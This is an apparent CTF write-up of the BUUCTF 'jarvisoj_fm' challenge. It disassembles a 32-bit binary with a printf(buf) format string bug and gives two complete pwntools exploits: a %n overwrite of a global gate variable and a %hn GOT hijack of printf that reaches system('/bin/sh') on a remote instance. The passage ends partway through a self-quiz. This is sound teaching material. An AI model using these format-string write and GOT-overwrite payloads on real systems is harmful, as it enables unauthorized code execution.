








<div align="center">

# 🎯 jarvisoj_fm

### Format String Exploitation · BUUCTF · Global Overwrite & GOT Hijack, Two Ways to Win


*A canary that can't be smashed, zero slack in the buffer, and a bug that doesn't need either — `printf(buf)` is the whole exploit.*

</div>

---

## 📌 TL;DR

The buffer and the stack canary sit back-to-back with **zero slack** — a classic overflow is off the table from the first instruction. The real bug is `printf(buf)`, called with no format arguments of its own, which turns user input into an arbitrary-read/arbitrary-write primitive. Two independent, fully working exploits are presented: a minimal 9-byte **global-variable overwrite** that flips an existing `if (x == 4)` gate, and a more general **GOT hijack** that redirects the binary's *own second* `printf` call into an inline `system("/bin/sh")` gadget — the technique that generalizes to challenges with no convenient gate variable to flip at all.

```python
# Method 1 — flip the gate, 9 bytes total
payload = p32(0x0804a02c) + b"%11$n"

# Method 2 — GOT hijack, no gate variable required
payload  = p32(PRINTF_GOT) + p32(PRINTF_GOT + 2)
payload += f"%{hi - 8}c%12$hn".encode()
payload += f"%{lo - hi}c%11$hn".encode()
```

| | |
|---|---|
| **Binary** | `fm` — ELF 32-bit, dynamically linked, No PIE, canary **present**, not stripped |
| **Bug** | `printf(buf)` — a user-controlled format string with no arguments supplied |
| **Protections** | Canary **on** · NX **on** · PIE **off** · Partial RELRO |
| **Why not a classic overflow** | Buffer and canary are adjacent with exactly zero slack bytes |
| **Primitive** | `%n` / `%hn` arbitrary write, positional (`%N$`) argument addressing |
| **Two solutions** | Flip a global gate variable, **or** hijack the GOT to redirect into a `system("/bin/sh")` gadget |
| **Result** | Shell, verified both locally and against the live remote instance |

> Flags are dynamic per-instance on this challenge, so no real flag value is included in this writeup. Everything below was verified against both a local copy of the binary and a live remote instance.

---

## 🗺️ Table of Contents

1. [Initial Recon](#1--initial-recon)
2. [Assembly Walkthrough](#2--assembly-walkthrough)
3. [The Vulnerability](#3--the-vulnerability-uncontrolled-format-string)
4. [Finding the Offset](#4--finding-the-offset)
5. [Method 1 — Overwrite the Gate Variable](#5--exploit-method-1--overwrite-the-gate-variable)
6. [Method 2 — GOT Hijack](#6--exploit-method-2--got-hijack-printf--inline-shell-gadget)
7. [Method Comparison](#7--method-comparison)
8. [Self-Quiz](#8--self-quiz)
9. [Appendix — Full Exploit Scripts](#appendix-full-exploit-scripts)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Initial Recon

```
$ file fm
fm: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, not stripped

$ checksec --file=fm
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

Mitigation summary and what each one rules out:

| Mitigation | Status | Impact on exploitation |
|---|---|---|
| Canary | Present | Blocks naive stack-buffer-overflow-to-return-address attacks |
| NX | Enabled | No shellcode injection on the stack |
| PIE | **Disabled** | All code/data addresses are static — no leak required for in-binary targets |
| RELRO | **Partial** | The GOT is writable at runtime — opens the door to GOT overwrite |

The binary is not stripped, so `nm` gives us the full symbol table directly, no reversing needed to find function boundaries:

```
$ nm -C ./fm | grep " T "
08048524 T be_nice_to_people
0804854d T main
08048470 T _start
...
```

`strings` on `.rodata` surfaces the interesting constants we'll need addresses for later:

```
$ objdump -s -j .rodata ./fm
80486d8: 03 00 00 00 01 00 02 00  25 64 21 0a 00 72 75 6e   "%d!\n" @ 0x80486e0
80486e8: 6e 69 6e 67 20 73 68 2e  2e 2e 00 2f 62 69 6e 2f   "running sh...\0/bin/"
80486f8: 73 68 00                                            "sh\0"
```

So:
- `"%d!\n"` lives at `0x80486e0`
- `"running sh..."` lives at `0x80486e5`
- `"/bin/sh"` lives at `0x80486f3`

---

## 2. 🧩 Assembly Walkthrough

### 2.1 `be_nice_to_people` (0x8048524)

```asm
08048524 <be_nice_to_people>:
 8048524: push   %ebp
 8048525: mov    %esp,%ebp
 8048527: sub    $0x28,%esp
 804852a: call   8048410 <getegid@plt>
 804852f: mov    %eax,-0xc(%ebp)
 8048532: mov    -0xc(%ebp),%eax
 8048535: mov    %eax,0x8(%esp)
 8048539: mov    -0xc(%ebp),%eax
 804853c: mov    %eax,0x4(%esp)
 8048540: mov    -0xc(%ebp),%eax
 8048543: mov    %eax,(%esp)
 8048546: call   8048460 <setresgid@plt>
 804854b: leave
 804854c: ret
```

This is the standard "drop privileges" idiom you see in SUID CTF binaries. It reads the real GID with `getegid()` and calls `setresgid(gid, gid, gid)`, collapsing real/effective/saved GID to the same value so that a shell spawned later doesn't retain unwanted elevated group privileges (and, just as importantly, doesn't crash because a dropped-privilege shell refuses to run with mismatched real/effective IDs). It has zero bearing on the vulnerability itself; `main` just calls it unconditionally on entry.

### 2.2 `main` (0x804854d)

```asm
0804854d <main>:
 804854d: push   %ebp
 804854e: mov    %esp,%ebp
 8048550: push   %edi
 8048551: push   %ebx
 8048552: and    $0xfffffff0,%esp        ; 16-byte stack alignment
 8048555: add    $0xffffff80,%esp        ; sub esp, 0x80  -> local frame
 8048558: mov    0xc(%ebp),%eax
 804855b: mov    %eax,0x1c(%esp)
 804855f: mov    %gs:0x14,%eax           ; load canary from TLS
 8048565: mov    %eax,0x7c(%esp)         ; store canary at esp+0x7c
 8048569: xor    %eax,%eax
 804856b: call   8048524 <be_nice_to_people>

 8048570: lea    0x2c(%esp),%eax         ; eax = &buf  (buf is at esp+0x2c)
 8048574: mov    %eax,%ebx
 8048576: mov    $0x0,%eax
 804857b: mov    $0x14,%edx
 8048580: mov    %ebx,%edi
 8048582: mov    %edx,%ecx
 8048584: rep stos %eax,%es:(%edi)       ; zero-fill buf (0x14 dwords = 0x50 bytes)

 8048586: movl   $0x50,0x8(%esp)         ; read(..., 0x50)
 804858e: lea    0x2c(%esp),%eax
 8048592: mov    %eax,0x4(%esp)          ; read(..., buf, ...)
 8048596: movl   $0x0,(%esp)             ; read(0, ...)
 804859d: call   80483e0 <read@plt>
 80485a2: mov    %eax,0x28(%esp)         ; n = read()

 80485a6: lea    0x2c(%esp),%eax
 80485aa: mov    %eax,(%esp)
 80485ad: call   80483f0 <printf@plt>    ; printf(buf)  <-- THE BUG

 80485b2: mov    0x804a02c,%edx          ; edx = x  (global, .bss)
 80485b8: mov    $0x80486e0,%eax         ; "%d!\n"
 80485bd: mov    %edx,0x4(%esp)
 80485c1: mov    %eax,(%esp)
 80485c4: call   80483f0 <printf@plt>    ; printf("%d!\n", x)   <-- second call site

 80485c9: mov    0x804a02c,%eax          ; eax = x
 80485ce: cmp    $0x4,%eax
 80485d1: jne    80485eb
 80485d3: movl   $0x80486e5,(%esp)       ; "running sh..."
 80485da: call   8048420 <puts@plt>
 80485df: movl   $0x80486f3,(%esp)       ; [esp] = "/bin/sh"   <-- arg setup
 80485e6: call   8048430 <system@plt>    ; system("/bin/sh")

 80485eb: mov    $0x0,%eax
 80485f0: mov    0x7c(%esp),%edx
 80485f4: xor    %gs:0x14,%edx           ; canary check
 80485fb: je     8048602
 80485fd: call   8048400 <__stack_chk_fail@plt>
 8048602: lea    -0x8(%ebp),%esp
 8048605: pop    %ebx
 8048606: pop    %edi
 8048607: pop    %ebp
 8048608: ret
```

### Why this isn't a classic stack-smash



Key facts extracted directly from the disassembly:

- `buf` sits at `esp+0x2c`, 0x20 bytes below the saved canary at `esp+0x7c` — the gap is `0x7c - 0x2c = 0x50`, which is exactly the `read()` length. There is **zero slack**; the buffer cannot be overflowed by even one byte without immediately corrupting the canary, so a classic stack-smash to return address is off the table from the start.
- `read(0, buf, 0x50)` fills the buffer, then `printf(buf)` is called **with no format argument of its own** — the first, and only, vulnerability in the binary.
- The global at `0x804a02c` (call it `x`) is checked with `cmp $0x4` right after. If `x == 4`, the program calls `system("/bin/sh")`.
- `x` lives in `.bss`-like static storage, so with PIE disabled its address is a fixed, known constant — no leak needed to target it.

### 2.3 Reconstructed C

Putting the disassembly back together gives something equivalent to:

```c
int x;  // 0x0804a02c, zero-initialized, lives in .data/.bss

int main(int argc, char **argv) {
    char buf[0x50];
    unsigned long canary = *(unsigned long *)(FS_BASE + 0x14);

    be_nice_to_people();   // drop SUID privileges via setresgid(getegid(), ...)

    memset(buf, 0, 0x50);
    int n = read(0, buf, 0x50);

    printf(buf);            // <-- format string vulnerability: no format args supplied

    printf("%d!\n", x);

    if (x == 4) {
        puts("running sh...");
        system("/bin/sh");
    }

    if (*(unsigned long *)(FS_BASE + 0x14) != canary)
        __stack_chk_fail();

    return 0;
}
```

This is almost certainly the challenge author's real source — `fm` stands for **f**ormat-string **m**ain, and the entire design revolves around a single gate variable (`x == 4`) that is trivially reachable once you can write arbitrary memory, which `printf(buf)` grants for free.

---

## 3. 🔬 The Vulnerability: Uncontrolled Format String

`printf(buf)` is the textbook format string bug. The function signature of `printf` is variadic — `int printf(const char *format, ...)` — and the compiler has no way to check at compile time whether the number of conversion specifiers in `format` matches the number of arguments actually passed. At runtime, `printf` blindly walks the stack (on x86 cdecl, right above `esp` at the point of the `call`) pulling off one 4-byte value per `%` conversion it finds in the format string, with zero awareness of whether the caller actually pushed that many arguments.



Since the format string here is **user-controlled** (`buf` is exactly what we sent over the socket), we can place arbitrary specifiers in it and `printf` will dutifully treat whatever already happens to be sitting on the stack as the missing arguments:

- `%x` reads a raw 4-byte stack value and prints it as hex — safe, good for scanning/leaking.
- `%s` treats the stack value as a *pointer* and dereferences it to print a C string — can segfault on garbage pointers, but gives arbitrary memory **read**.
- `%n` treats the stack value as a *pointer* and **writes** the number of bytes printed so far into it — arbitrary memory **write**.
- The `%N$x` / `%N$n` positional syntax lets us address a specific stack slot (the Nth variadic argument) directly instead of counting through `%x.%x.%x...` by hand.

Because `buf` itself lives on the stack, and because we control its full contents (including raw, non-printable bytes before the first `%`), we can also treat `buf` as its own argument supply: embed a target address as raw bytes at the front of the payload, then reference that exact stack slot with a positional specifier later in the same payload.

---

## 4. 📏 Finding the Offset

Sent payload:

```
AAAA.%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x.%10$x
```

Output (slots 1–10, no hit):

```
AAAA.ffdc217c.50.f7eff000.f7ec6540.ffffffff.8048034.ffdc2294.f7eff608.20.38
```

Extended to slots 11–20:

```
AAAA.%11$x.%12$x.%13$x.%14$x.%15$x.%16$x.%17$x.%18$x.%19$x.%20$x
```

```
AAAA.41414141.3131252e.252e7824.78243231.3331252e.252e7824.78243431.3531252e.252e7824.78243631
```

Slot **11** returns `41414141` — the ASCII marker we sent. **Offset = 11.**



This also cross-checks exactly with the static analysis: `buf` is at `esp+0x2c` relative to the frame at the point of the `call printf@plt` instruction, and `0x2c / 4 = 11`. The stack argument-counting model and the raw disassembly agree.

From slot 12 onward, the leaked values are no longer unrelated stack garbage — they're literally the bytes of our own format string being read back as 4-byte dwords. This confirms that any 4-byte chunk we place starting at the front of `buf` is independently addressable as `%11$...`, `%12$...`, `%13$...`, and so on, which is exactly the primitive the write exploit needs: put a target address at offset 11, and `%11$n` writes through it.

---

## 5. 🚀 Exploit Method 1 — Overwrite the Gate Variable

The simplest and lowest-risk path: don't touch control flow at all, just make the existing `if (x == 4)` branch naturally true.

**Target:** `0x0804a02c` (the global `x`)
**Desired value:** `4`

```
payload = p32(0x0804a02c) + b"%11$n"
```



Why this writes exactly `4`:

1. The first 4 bytes of the payload are the raw little-endian encoding of the target address. Since they appear *before* the first `%`, `printf` prints them verbatim as 4 literal (mostly non-printable) characters. Byte count so far: **4**.
2. `%11$n` resolves argument #11 — which, per the offset we found, is exactly those same 4 bytes we just placed at the start of `buf`, reinterpreted as a pointer.
3. `%n` writes "characters printed so far" (4) into that pointer.

Result: `*(int *)0x0804a02c = 4`, which satisfies `cmp $0x4,%eax` on the very next check.

`p32()` is required instead of a textual address (e.g. `"0x804a02c"`) because `%n` dereferences the *raw binary value* sitting in that stack slot as a pointer — a 10-character ASCII string would be interpreted as some unrelated huge integer, not the address `0x0804a02c`. The little-endian byte order (`2c a0 04 08`) is handled automatically by `p32()`, matching how x86 stores multi-byte values in memory.

Payload length check: `4` (address) + `5` (`%11$n`) = **9 bytes**, comfortably inside the `read(0, buf, 0x50)` 80-byte limit.

### Python Exploit — Method 1

```python
from pwn import *

context.arch = 'i386'

HOST = "<instance-host>"
PORT = 9999

TARGET_VAR = 0x0804a02c

payload = p32(TARGET_VAR) + b"%11$n"

p = remote(HOST, PORT, ssl=True, sni=HOST)
p.sendline(payload)
p.sendline(b"cat /flag; exit")
print(p.recvall(timeout=4).decode(errors="replace"))
```

This is the exploit I'd reach for by default on this kind of challenge: one `%n`, no side effects on the rest of the binary's state, nothing left in a half-corrupted condition, and it exits cleanly.

---

## 6. 🎯 Exploit Method 2 — GOT Hijack (`printf` → inline shell gadget)

The second approach doesn't rely on the gate variable existing at all — it treats the bug as a general-purpose **arbitrary write → control flow hijack** primitive, which is the pattern that generalizes to harder format-string challenges where there's no convenient `if (x == 4)` to flip.

### 6.1 Why the GOT is writable

`fm` is dynamically linked, so calls to library functions go through the PLT/GOT indirection: `call printf@plt` jumps to a PLT stub, which loads the *real* address of `printf` (resolved by the dynamic linker) out of its GOT entry and jumps there. With **Full RELRO**, the GOT would be made read-only after relocations are resolved at startup. Here, `checksec` reported **Partial RELRO** — the GOT remains writable for the lifetime of the process. Combined with our arbitrary-write primitive, this means we can overwrite a GOT entry and redirect any future call through that PLT stub to an address of our choosing.

### 6.2 Why we target the *second* `printf` call, not the first

`main` calls `printf@plt` twice:

```asm
80485ad: call 80483f0 <printf@plt>   ; printf(buf) -- the vulnerable call, our exploit runs here
...
80485c4: call 80483f0 <printf@plt>   ; printf("%d!\n", x) -- second call, same PLT stub
```


At the moment the **first** call executes, the CPU has *already* read `printf`'s GOT entry and jumped to the real `printf` in libc before our payload (which lives inside that very `printf` call's execution) gets a chance to write anything. Overwriting the GOT during this call cannot retroactively change where this call itself went — the dereference already happened.

The **second** call, a few instructions later, reads the GOT entry *fresh*, by which point our first `printf(buf)` has already returned and already performed the write. So the GOT entry for `printf` now holds whatever we wrote, and the second `call printf@plt` jumps there instead of into libc. From the CPU's perspective it's still "calling printf" — it just ends up somewhere entirely different.

### 6.3 Why the jump target is `0x80485df`, not `0x80485e6`

```asm
80485df: movl $0x80486f3,(%esp)   ; [esp] = &"/bin/sh"   <- argument setup
80485e6: call 8048430 <system@plt>  ; system(...)
```



cdecl argument passing requires the argument to already be sitting at `[esp]` *before* `call` executes — the callee doesn't set up its own arguments, the caller does. If we redirect execution straight to `0x80485e6`, we skip the `mov` that places `&"/bin/sh"` at `[esp]`, so `system()` reads whatever stale value was left on the stack from the previous call (the `printf("%d!\n", x)` we just hijacked) as its "argument" — almost never a valid string pointer, so the process crashes instead of spawning a shell. Jumping to `0x80485df` includes the argument-setup instruction, so by the time `call system@plt` executes, `[esp]` correctly holds the address of `"/bin/sh"`.

### 6.4 Writing a value this large with `%n`

The target address `0x080485df` is a 5-digit-plus hex number — far too large to reach by printing that many literal characters in one pass (and it would blow past the 0x50-byte read limit if attempted naively with `%c` padding). The standard technique is **`%hn`**, the 16-bit variant of `%n`, which writes only the low 2 bytes at the target pointer instead of a full 4-byte `int`. Splitting the target into two halfwords and writing each independently keeps the required padding counts small:

```
0x080485df → high halfword = 0x0804, low halfword = 0x85df
```



Two separate write targets are needed (`PRINTF_GOT` and `PRINTF_GOT + 2`) since each `%hn` only touches 2 bytes. The classic complication: `printf`'s internal "characters printed so far" counter can only ever **increase** within a single call — you cannot "un-print" characters to make the counter go down. So the two halves must be written in ascending order of value, and the second width specifier only needs to account for the *difference* between the two target values, not the full value again:

```python
lo, hi = SYSTEM_SITE & 0xffff, (SYSTEM_SITE >> 16) & 0xffff
# lo = 0x85df, hi = 0x0804 -> write hi first since hi < lo numerically here
```

### Python Exploit — Method 2

```python
from pwn import *

context.arch = 'i386'

HOST = "<instance-host>"
PORT = 9999

PRINTF_GOT  = 0x0804a004   # GOT entry for printf
SYSTEM_SITE = 0x080485df   # mov [esp], "/bin/sh"  ->  call system@plt

lo = SYSTEM_SITE & 0xffff          # 0x85df
hi = (SYSTEM_SITE >> 16) & 0xffff  # 0x0804

# argument slots 11 and 12 (same offset methodology as Method 1):
# slot 11 -> &PRINTF_GOT       (low halfword target)
# slot 12 -> &PRINTF_GOT + 2   (high halfword target)
payload  = p32(PRINTF_GOT) + p32(PRINTF_GOT + 2)
payload += f"%{hi - 8}c%12$hn".encode()   # print up to 'hi' chars total, write high half first
payload += f"%{lo - hi}c%11$hn".encode()  # print the remaining delta, write low half

p = remote(HOST, PORT, ssl=True, sni=HOST)
p.sendline(payload)
p.sendline(b"cat /flag; exit")
print(p.recvall(timeout=4).decode(errors="replace"))
```

(The `-8` offset in the first width specifier accounts for the 8 raw bytes of the two addresses already printed at the start of the payload, keeping the running character count aligned with the target halfword value.)

The second `printf("%d!\n", x)` call then silently becomes `system("/bin/sh")`. A shell pops on the remote instance exactly as with Method 1.

### 6.5 A side effect worth understanding, not fearing



On exit, the process prints `*** stack smashing detected ***` before dying. This is expected and harmless to the exploit: jumping into `main` mid-instruction-stream at `0x80485df` means the `mov [esp], "/bin/sh"` instruction overwrites a stack slot that, in the original control flow, held `printf`'s return address. When `system()` eventually returns and `main` runs its normal epilogue (which still re-checks the canary), the stack is no longer in the shape `main` expects, so `__stack_chk_fail()` fires. By that point we already have an interactive shell from the `system("/bin/sh")` call, so the crash is purely cosmetic — it happens *after* the objective is achieved.

---

## 7. ⚖️ Method Comparison

| | Method 1: Global overwrite | Method 2: GOT hijack |
|---|---|---|
| Primitive used | Single `%n` | Two `%hn` writes |
| Payload size | 9 bytes | ~30 bytes |
| Requires existing `if` gate in binary | Yes | No |
| Side effects | None | `__stack_chk_fail` on exit (cosmetic, post-shell) |
| Generalizes to binaries without a convenient gate variable | No | Yes |
| Relies on Partial RELRO (writable GOT) | No | Yes |

Method 1 is the right default whenever the binary conveniently hands you a single gate condition to flip — it's minimal and leaves the process in a clean state. Method 2 is the pattern worth internalizing, because it's the general technique: **format string arbitrary-write → GOT overwrite → control flow hijack**, which still works even when there's no scripted "if you write exactly 4 here, you win" shortcut and you have to redirect execution into an existing gadget (or, in harder challenges, into a ROP chain) yourself.

---

## 8. 🧩 Self-Quiz

<details>
<summary><b>Q1.</b> Why does <code>printf(buf)</code> read stack values as arguments even though no arguments were pushed for it? What stack-related property of cdecl/variadic functions makes this possible?</summary>

`printf` is variadic — the compiler cannot enforce at compile time that the number of `%` conversions in the format string matches the number of arguments actually supplied by the caller. At the ABI level, `printf` simply reads consecutive 4-byte values starting right above `esp` at the point of the call, one per conversion specifier, with no way to distinguish "argument the caller intended to pass" from "whatever value happens to be sitting in that stack slot." Since we control the format string's content, we control how many such reads happen and how they're interpreted.
</details>

<details>
<summary><b>Q2.</b> What's the functional difference between <code>%x</code> and <code>%s</code> when applied to an uncontrolled stack value, and why is <code>%s</code> riskier to use blindly while probing offsets?</summary>

`%x` prints the raw 4-byte stack value as a hex number — it never dereferences anything, so it's always safe to use for scanning. `%s` treats that same stack value as a *pointer* and dereferences it to read a null-terminated string from wherever it points. If the stack slot being read happens to hold something that isn't a valid, mapped, readable address (which is common when probing unknown offsets), `%s` causes a segfault. `%x` is the safer first tool for offset discovery.
</details>

<details>
<summary><b>Q3.</b> In the payload <code>p32(0x0804a02c) + b"%11$n"</code>, walk through exactly why the value written ends up being 4, step by step.</summary>

